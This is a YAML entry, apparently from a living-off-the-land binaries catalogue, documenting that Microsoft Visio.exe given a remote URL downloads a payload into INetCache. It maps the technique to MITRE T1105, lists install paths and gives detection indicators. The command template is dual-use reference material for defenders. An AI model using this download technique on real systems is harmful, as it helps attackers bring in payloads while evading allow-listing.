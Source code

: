 ```yaml
---
Name: Visio.exe
Description: Microsoft Visio Executable
Author: Avihay Eldad
Created: 2024-02-15
Commands:
  - Command: Visio.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Visio.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office14\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office14\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office15\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office15\Visio.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\Office16\Visio.exe
  - Path: C:\Program Files\Microsoft Office\root\Office16\Visio.exe
Detection:
  - IOC: URL on a visio.exe command line
  - IOC: visio.exe making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

